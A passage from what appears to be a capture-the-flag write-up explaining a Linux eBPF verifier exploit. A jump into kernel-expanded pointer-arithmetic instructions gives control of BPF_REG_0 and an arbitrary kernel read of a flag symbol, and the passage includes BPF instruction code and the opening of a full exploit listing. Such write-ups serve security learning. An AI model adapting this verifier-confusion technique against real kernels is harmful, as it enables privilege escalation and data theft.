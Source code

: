 My idea is using this expanded instruction, i want to make this load arbitrary
pointer (we want to take control over `BPF_REG_0` registers). This is what it
looks like.  
``` c  
       BPF_JMP_IMM(BPF_JLE, BPF_REG_7, 4, 11), // goto jmp1  
       BPF_MOV64_IMM(BPF_REG_0, 0x0),  
       BPF_EXIT_INSN(),  
       // jmp2: // [1]  
       BPF_MOV64_REG(BPF_REG_0, BPF_REG_5), // suppose BPF_REG_5 is pointer to map value  
       BPF_MOV64_REG(BPF_REG_7, BPF_REG_7), // just some nop  
       BPF_MOV64_REG(BPF_REG_7, BPF_REG_7),  
       BPF_MOV64_REG(BPF_REG_7, BPF_REG_7),  
       BPF_MOV64_REG(BPF_REG_7, BPF_REG_7),  
       BPF_MOV64_REG(BPF_REG_7, BPF_REG_7),  
                                                     // expanded instruction here  
       BPF_ALU64_REG(BPF_ADD, BPF_REG_0, BPF_REG_7), /*BPF_MOV32_IMM(BPF_REG_AX, aux->alu_limit),  
                                                       BPF_ALU64_REG(BPF_SUB, BPF_REG_AX, BPF_REG_7),  
                                                       BPF_ALU64_REG(BPF_OR, BPF_REG_AX, BPF_REG_7),  
                                                       BPF_ALU64_IMM(BPF_NEG, BPF_REG_AX, 0),  
                                                       BPF_ALU64_IMM(BPF_ARSH, BPF_REG_AX, 63),  
                                                       BPF_ALU64_REG(BPF_AND, BPF_REG_AX, BPF_REG_7),  
                                                       BPF_ALU64_REG(BPF_ADD, BPF_REG_0, BPF_REG_AX),*/  
  
       BPF_MOV64_IMM(BPF_REG_0, 0x0),  
       BPF_EXIT_INSN(),  
       // jmp1:  
       BPF_JMP_IMM(BPF_JLE, BPF_REG_7, 4, -10), // goto jmp2  
```  
First we create backward jump with the technique we talked before, we jump to
`jmp2:` from `jmp1:`. Suppose `BPF_REG_5` is pointer to map value, and it is
stored to `BPF_REG_0`. There's some `nop` instruction, i will explain that
later, after that arithmetic operation that involve scalar with pointer will
expanded by kernel, it will expanded to seven instruction. If you apply the
patch, and count the offset `-10` from `jmp1:`, it will resides right at the
expanded instruction!. Because of the bug, after instruction expanded, the
offset of the jump not changed. Instead of jump to the `jmp2:` which will
store `BPF_REG_0` with valid pointer value, it will just jump into expanded
instruction with invalid value in `BPF_REG_0`, we can just control `BPF_REG_0`
at the start, and after expanded instruction finish, it will treat `BPF_REG_0`
as valid pointer even though it's the controlled value in runtime!. Now you
know why i put 5 nop instruction right there, it is just to make distance to
valid destination offset and distance to expanded instruction is the same, so
we make verifier believe we get `BPF_REG_0` is valid from `BPF_REG_5`, but in
runtime we just jump into the expanded instruction.

We're almost done, we just need to set `BPF_REG_0` to kernel address of
`uiuctf_flag`, and we just use BPF instruction to read `BPF_REG_0` and copy to
our bpf map to get the flag. The author of the challenge make our work easier
to make `/proc/kallsyms` readable from unpriv user, so we can use
`/proc/kallsyms` to get address of `uiuctf_flag`. This is my full exploit
code:  
``` c  
#define _GNU_SOURCE  
#include <sched.h>  
#include <stdio.h>  
#include <fcntl.h>  
#include <stdlib.h>  
#include <unistd.h>  
#include <sys/ioctl.h>  
#include <errno.h>  
#include <pthread.h>  
```